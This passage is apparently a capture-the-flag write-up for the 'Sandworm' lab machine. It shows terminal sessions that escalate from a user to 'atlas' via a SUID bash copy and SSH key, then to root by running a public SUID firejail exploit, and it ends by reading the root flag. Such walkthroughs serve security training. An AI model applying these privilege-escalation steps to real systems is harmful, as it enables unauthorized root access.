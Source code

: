 ```bash
silentobserver@sandworm:/opt/crates/logger/src$ /tmp/bash -p
shell-init: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
bash-5.1$ whoami
atlas
bash-5.1$ 
```
By adding our public SSH key to the 'atlas' user, we can easily connect using SSH.

```bash
┌──(root㉿emsec)-[~/.ssh]
└─# ssh -i id_rsa atlas@ssa.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-73-generic x86_64)
...[snip]...
Last login: Sat Nov 18 11:21:21 2023 from 10.10.14.43
atlas@sandworm:~$ 
```

## Privilege escalation : atlas -> root 

### Enumeration

Upon checking the user and group ID, it is revealed that the `atlas` user belongs to a group called 'jailer'.

```bash
atlas@sandworm:~$ id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas),1002(jailer)

```

If we search for SUID biaries we can see one from firejail:

```bash
atlas@sandworm:~$ find / -group jailer -ls 2>/dev/null
     1344   1740 -rwsr-x---   1 root     jailer    1777952 Nov 29  2022 /usr/local/bin/firejail
atlas@sandworm:~$ 
```
### SUID firejail privilege escalation

Here, the next step involves searching Google for firejail exploits that enable privilege escalation. I came across [this one](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25):

![Alt text](firejail.png)

So, acquire the exploit.py, grant it execute permissions, and execute it. Once run, background the process, then execute 'firejail --join=27179' and 'su -' to obtain root access.

```bash
atlas@sandworm:/tmp$ chmod +x exploit.py 
atlas@sandworm:/tmp$ ./exploit.py 
You can now run 'firejail --join=27179' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.
^Z
[1]+  Stopped                 ./exploit.py
atlas@sandworm:/tmp$ firejail --join=27179
changing root to /proc/27179/root
Warning: cleaning all supplementary groups
Child process initialized in 10.03 ms
atlas@sandworm:/tmp$ su -
root@sandworm:~# cat /root/root.txt
12d54f557*************************
root@sandworm:~# 
```
**Happy Hacking ! 👾​❤️​**
